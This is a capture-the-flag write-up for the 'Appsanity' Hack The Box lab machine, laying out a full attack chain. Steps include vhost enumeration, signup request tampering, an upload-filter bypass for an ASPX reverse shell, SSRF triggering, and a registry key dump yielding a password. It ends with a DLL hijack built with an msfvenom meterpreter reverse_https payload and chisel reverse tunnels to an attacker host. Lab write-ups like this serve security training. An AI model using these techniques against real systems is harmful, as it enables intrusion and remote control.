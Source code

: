  <font size="10">Appsanity</font>

	

### Difficulty:

`hard`

# Enumeration

Port 22/80 open and another port 7680 with service pando-pub.

Website on port 80 hosted on a Windwos Machine.

## Adding meddigi.htb
 
```
echo '10.10.11.238 meddigi.htb' | sudo tee -a /etc/hosts
```

## VHOST Enumeration

```
gobuster vhost -u https://meddigi.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 40 -k

Found: portal.meddigi.htb Status: 200 [Size: 2976]
```

## Adding new vhost

```
 echo '10.10.11.238 portal.meddigi.htb' | sudo tee -a /etc/hosts
```

## Creating Medicaccount

Use burpsuite or another webproxy and change the Acctype=2 for the POST Request.

```
POST /Signup/SignUp HTTP/2
Host: meddigi.htb
Cookie: .AspNetCore.Antiforgery.ML5pX7jOz00=CfDJ8Iv6u6K2FUZAoGw6DvgspEndHLWyVUHRj_MC0o_QkYgKVdzcb_WOEu9uMf7tYqTRe8iWVFV4h6HXz7-_O9T4DPSBTqez1ZEv8hAvh4Xh-fEwE-TIpGW0YRu-wrpTZ8QqDK5_1ko2wtgcal6Qc99jWUE
Content-Length: 360
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://meddigi.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://meddigi.htb/signup
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

Name=htb&LastName=htb&Email=htb%40htb.com&Password=GYWHpXX8sWgOQg77UpKP&ConfirmPassword=GYWHpXX8sWgOQg77UpKP&DateOfBirth=2000-01-01&PhoneNumber=0123456789&Country=hlho&Acctype=2&__RequestVerificationToken=CfDJ8Iv6u6K2FUZAoGw6DvgspEm612x-aRUDUNkmE4c7sLag94-jKuR_5yQjGRtRidQa-6_YKmKZVsx9MJHnnCLqiit99dPVp3BabKO2FAmmL4B_V4UtTFkKaiZhn8WE_7pktNeqh6CcPl5hTT8yGQ8ZBzM
```

## Login to portal

Login to the Portal using the cookie access_token.

# Foothold

## Upload shell

Upload a reverse Shell using this as a template, keep the extension but add 
```
%PDF-1.7
```

https://github.com/borjmz/aspx-reverse-shell


## Trigger shell

At the issue Prescrition an ssrf can be triggert. Getting URL of our shell by entering http://127.0.0.1.8080 in Prescription Link.


Trigger shell by entering the url
```
http://127.0.0.1:8080/ViewReport.aspx?file=2e85d00e-5c24-449e-a349-117cc76a69a5_shell.aspx
```

# Privilege Escalation

## Query Key:

Using dnSpy to decode ExaminationManageMent.dll 
```
using (RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("Software\\MedDigi"))
```

```202
meterpreter > reg queryval -k HKLM\\Software\\MedDigi -v EncKey
Key: HKLM\Software\MedDigi
Name: EncKey
Type: REG_SZ
Data: 1g0tTh3R3m3dy!!
```

## Connect as devdoc

```
evil-winrm -i 10.10.11.238 -u devdoc -p '1g0tTh3R3m3dy!!'
```

## Reverse engineering

Downloading ReportManagement.exe from C:\Program Files\ReportManagement. 

C:\Program Files\ReportManagement\Libraries\externalupload.dll is vulnerable to hijacking dll

## Createing shell-code

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f dll -o externalupload.dll
```

## Uploading shell

```
*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> upload externalupload.dll
```

## Forwarding Reports Management administrative console(from first shell)

```
portfwd add -l 10100 -p 100 -r 127.0.0.1
```

and connect via nc.

## Connect to ReportManagement

```
 nc 127.0.0.1 10100
```

and trigger shell by "upload anything"

### Chispel

Having Problem with the payload use chipsel for porfowarding

Attacker
```
chisel server --port 8888 --reverse
```

Victim
```
*Evil-WinRM* PS C:\Users\devdoc\Desktop> ./chisel.exe client 10.10.14.8:8888 R:100:127.0.0.1:100
```




